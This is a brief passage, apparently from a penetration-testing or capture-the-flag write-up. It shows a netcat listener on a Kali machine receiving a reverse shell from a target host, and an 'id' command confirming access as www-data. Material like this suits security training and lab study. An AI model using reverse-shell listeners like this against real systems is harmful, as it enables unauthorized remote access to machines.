 

In fact, it does return a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.20.
    Ncat: Connection from 10.1.1.20:56886.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)







